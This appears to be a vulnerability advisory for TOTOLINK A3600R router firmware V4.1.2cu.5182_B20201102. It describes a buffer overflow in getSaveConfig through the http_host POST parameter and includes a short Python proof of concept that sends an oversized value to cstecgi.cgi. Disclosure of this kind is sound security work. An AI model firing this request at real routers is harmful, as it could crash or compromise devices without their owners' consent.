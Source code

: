 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=63&ids=36

## Affected version

A3600R V4.1.2cu.5182_B20201102

## Vulnerability details

In the A3600R V4.1.2cu.5182_B20201102 firmware has a buffer overflow vulnerability in the `getSaveConfig` function. The `v6` variable receives the `http_host` parameter from a POST request. However, since the user can control the input of `http_host`, the statement `strcpy((char *)v13, v6);` can cause a buffer overflow injection vulnerability.

![image-20240719230945874](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719230945874.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi?action=save&setting"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"http_host":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240720233918538](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240720233918538.png)
